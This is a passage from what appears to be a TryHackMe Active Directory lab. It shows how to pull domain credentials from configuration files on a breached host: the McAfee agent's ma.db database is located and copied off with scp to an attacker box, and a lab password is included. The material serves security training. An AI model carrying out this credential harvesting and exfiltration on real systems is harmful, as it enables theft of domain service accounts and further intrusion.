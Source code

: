 While you should make sure to cleanup you user directory that you created at the start of the task, if you try you will notice that you get an access denied error. Don't worry, a script will help with the cleanup process but remember when you are doing assessments to always perform cleanup.

---
# Config Files

The last enumeration avenue we will explore in this network is configuration files. Suppose you were lucky enough to cause a breach that gave you access to a host on the organisation's network. In that case, configuration files are an excellent avenue to explore in an attempt to recover AD credentials. Depending on the host that was breached, various configuration files may be of value for enumeration: 

- Web application config files  
- Service configuration files
- Registry keys
- Centrally deployed applications  

Several enumeration scripts, such as [Seatbelt](https://github.com/GhostPack/Seatbelt), can be used to automate this process.

**Configuration File Credentials**  

However, we will focus on recovering credentials from a centrally deployed application in this task. Usually, these applications need a method to authenticate to the domain during both the installation and execution phases. An example of such as application is McAfee Enterprise Endpoint Security, which organisations can use as the endpoint detection and response tool for security.  

McAfee embeds the credentials used during installation to connect back to the orchestrator in a file called ma.db. This database file can be retrieved and read with local access to the host to recover the associated AD service account. We will be using the SSH access on THMJMP1 again for this exercise.

The ma.db file is stored in a fixed location:  

```php
thm@THMJMP1 C:\Users\THM>cd C:\ProgramData\McAfee\Agent\DB
thm@THMJMP1 C:\ProgramData\McAfee\Agent\DB>dir
 Volume in drive C is Windows 10
 Volume Serial Number is 6A0F-AA0F

 Directory of C:\ProgramData\McAfee\Agent\DB      

03/05/2022  10:03 AM    <DIR>          .
03/05/2022  10:03 AM    <DIR>          ..
03/05/2022  10:03 AM           120,832 ma.db      
               1 File(s)        120,832 bytes     
               2 Dir(s)  39,426,285,568 bytes free
```

We can use SCP to copy the ma.db to our AttackBox:

```php   
thm@thm:~/thm# scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
thm@10.200.4.249's password:
ma.db 100%  118KB 144.1KB/s   00:00    
```  
- Pass: Password1@
